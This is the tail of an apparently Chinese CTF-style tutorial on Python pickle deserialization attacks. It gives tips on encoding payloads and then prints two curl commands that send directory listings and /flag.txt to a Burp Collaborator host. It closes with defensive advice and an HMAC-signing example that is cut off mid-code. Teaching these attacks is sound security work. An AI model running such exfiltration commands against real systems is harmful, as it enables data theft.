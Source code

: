 ## 一些小技巧&注意事项

- 当把payload作为get参数请求时，url编码注意换行符是%0A而不是%0D%0A
- 对payload进行b64加密时，注意别把\n给单独编码了（不过正常都不会）
- 其他模块的load也可以触发pickle反序列化漏洞

例如：`numpy.load()`先尝试以numpy自己的数据格式导入，如果失败，则尝试以pickle的格式导入；`pandas.read_pickle()`直接使用`pickle.load()`方法

- 灵活运用<u>**burp collaborator**</u>

虽然我们不能把burp提供的collaborator当作vps来使用，进行反弹shell然后一通操作，但是我们可以利用反引号+curl的方式直接获得代码执行和结果的输出；curl本身的用法也很多，可以直接带文件进行post，更多内容参见：[curl 的用法指南](https://www.ruanyifeng.com/blog/2019/09/curl-reference.html)

```python
# 基操1
os.system('curl http://xxxx.burpcollaborator.net/`ls / | base64`)
# 基操2 -d参数可以读取本地文件内容作为数据体发送，会自动添加请求头并调整请求方法 无需-X POST
os.system('curl -d '@/flag.txt' http://xxxx.burpcollaborator.net/)
```

### 最后，出于安全角度的考量

- 禁用pickle，使用Json或Google Protocol Buffers

- 当确实需要使用pickle时，要确保对用户的输入进行过滤，比如重写`find_class()`（使用白名单而不是黑名单进行过滤）、禁止某些操作符；由于在对opcode进行反序列化时可能会造成任意文件读写，一定提前对重要文件做好权限的管理；必要时可以对信息进行hmac签名

- 举一个hmac的栗子

  ```python
  import hmac
  import pickle
  import base64
  
  class Student:
      def __init__(self, name, age):
          self.name = name
          self.age = age
  
      def __str__(self):
          return "My name is %s, I am %d years old." % (
              self.name,
              self.age
          )
  
  class HMAC_Pickler:
      def __init__(self, secret_key, seperator="|"):
          self.secret_key = secret_key
          self.seperator = seperator
  
      def digital_signature(self, data):
          signer = hmac.new(self.secret_key)
          signer.update(data)
          return signer.hexdigest()
  
      def loads(self, data):
          sign = data[:32]
          p = data[32+len(self.seperator):]
          assert sign == self.digital_signature(p), ("Data is tampered by someone.")
          return pickle.loads(p)
  
      def dumps(self, obj):
          p = pickle.dumps(obj)
          sign = self.digital_signature(p)
          return "%s%s%s" % (sign, self.seperator, p)
      def main():
  ```